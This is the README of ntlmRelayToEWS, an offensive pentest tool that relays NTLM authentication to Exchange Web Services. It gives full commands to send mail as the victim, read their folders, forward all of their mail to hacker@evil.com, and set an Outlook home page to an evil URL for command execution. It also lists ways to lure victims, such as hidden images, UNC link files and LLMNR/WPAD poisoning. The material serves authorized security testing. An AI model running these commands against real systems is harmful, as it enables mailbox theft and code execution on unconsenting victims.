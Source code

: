 ntlmRelayToEWS
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

**ntlmRelayToEWS** is a tool for performing ntlm relay attacks on Exchange Web Services (EWS). It spawns an SMBListener on port 445 and an HTTPListener on port 80, waiting for incoming connection from the victim. Once the victim connects to one of the listeners, an NTLM negociation occurs and is relayed to the target EWS server.

Obviously this tool does **NOT** implement the whole EWS API, so only a handful of services are implemented that can be useful in some attack scenarios. I might be adding more in the future. See the 'usage' section to get an idea of which EWS calls are being implemented.

Limitations and Improvements
----------------------
**Exchange version**:<br>
I've been testing this tool on an **Exchange Server 2010 SP2** only (*which is quite old admitedly*), so all EWS SOAP request templates, as well as the parsing of the EWS responses, are only tested for this version of Exchange.
These SOAP requests *might/should* work on a more recent version, probably not on older versions. In case those SOAP requests don't work on another version of Exchange, it should be quite easy to create the SOAP request templates to match a newer version by using the Microsoft EWS Managed API in trace mode and capture the proper SOAP requests (*that's how I did it !*).

**EWS SOAP client**:<br>
I would have loved to use a SOAP client in order to get a proper interface for automatically create all SOAP requests based on the Exchange WSDL. I tried using '**zeep**' but I banged my head on the wall to get it working with the Exchange WSDL as it requires to download external namespaces and as such requires an internet connection. Also, with 'zeep', the use of a custom transport session requires a `Requests.session` which is not the type of HTTP(S) session we have by default with the HTTPClientRelay: it would have required either to refactor the HTTPClientRelay to use '*Requests*' (*/me lazy*) or to simply get zeep to create the messages with `zeep.client.create_message()` and then send it with the relayed session we already have. Or is it because I'm a lame developper ? oh well...

Prerequisites
----------------------
**ntlmRelayToEWS** requires a proper/clean install of [Impacket](https://github.com/CoreSecurity/impacket). So follow their instructions to get a working version of Impacket.

Usage
----------------------
In its current version, the tool only implements the following attacks, which are all made on behalf of the relayed user (*victim*).

Refer to the help to get additional info: `./ntlmRelayToEWS -h`. Get more debug information using the `--verbose` or `-v`flag.

**SendMail**<br>
Send an HTML formed e-mail to a list of destinations:<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r sendMail -d "user1@corporate.org,user2@corporate.com" -s Subject -m sampleMsg.html`

**getFolder**<br>
Retrieve all items from a predefined folder (*inbox, sent items, calendar, tasks*):<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r getFolder -f inbox`

**forwardRule**<br>
Creates an evil forwarding rule that forwards all incoming message for the victim to another email address:<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r forwardRule -d hacker@evil.com`

**setHomePage**<br>
Defines a folder home page (*usually for the Inbox folder*) by specifying a URL. This technique, uncovered by SensePost/Etienne Stalmans allows for **arbitray command execution** in the victim's Outlook program by forging a specific HTML page: [Outlook Home Page – Another Ruler Vector](https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/):<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r setHomePage -f inbox -u http://path.to.evil.com/evilpage.html`

How to get the victim to give you their credentials for relaying ?
----------------------
In order to get the victim to send his credentials to ntlmRelayToEWS you can use any of the following well known methods:
  - Send the victim an e-mail with a hidden picture which 'src' attribute points to the ntlmRelayToEWS server, using either HTTP or SMB
  - Create a link file which 'icon' attribute points to the ntlmRelayToEWS using a UNC path and let victim browse a folder with this link
  - Perform LLMNR, NBNS or WPAD poisonning (*think of Responder.py or Invoke-Inveigh for instance*) to get any corresponding SMB or HTTP trafic from the victim sent to ntlmRelayToEWS
  - other ?

Credits
----------------
Based on [Impacket](https://github.com/CoreSecurity/impacket) and *ntlmrelayx* by Alberto Solino [@agsolino](https://twitter.com/agsolino).

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*